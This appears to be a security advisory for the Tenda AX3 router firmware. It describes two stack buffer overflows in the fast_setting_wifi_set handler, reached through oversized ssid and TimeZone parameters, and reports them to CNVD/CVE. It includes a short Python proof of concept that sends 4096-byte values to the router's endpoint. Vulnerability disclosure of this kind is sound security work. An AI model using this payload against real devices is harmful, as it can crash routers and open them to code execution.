 ## Tenda Router AX3 Vulnerability

There is a vulnerability lies in page goform/fast_setting_wifi_set,which influences the lastest version of Tenda Router AX3([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html)). 

## Description

Vulnerability function  form_fast_setting_wifi_set

![image-20220115020633570](./1.png) 

The v5 variable is obtained directly from the http request parameter ssid. Then v5 will be assigned to v6.

This function uses strcpy to copy the variable v6 to the stack variable par without any sercuity check.

Attacker can construct a long ssid parameter in the http request,which causes stack overflow.

![image-20220115021518187](2.png)

 

The v22 variable is directly retrieved from the http request parameter TimeZone.

Then v22 will be splice to stack by function sscanf without any security check,which causes stack overflow.

Combining the above two vulnerabilities can cause arbitrary code execution.

## POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/fast_setting_wifi_set"
ssid = "a" * 0x1000
timeZone = "b"*0x1000
r = requests.post(url, data={'ssid': ssid, 'timeZone': timeZone})
print(r.content)
```

## Timeline

- 2021-12-31 report to CNVD&CVE
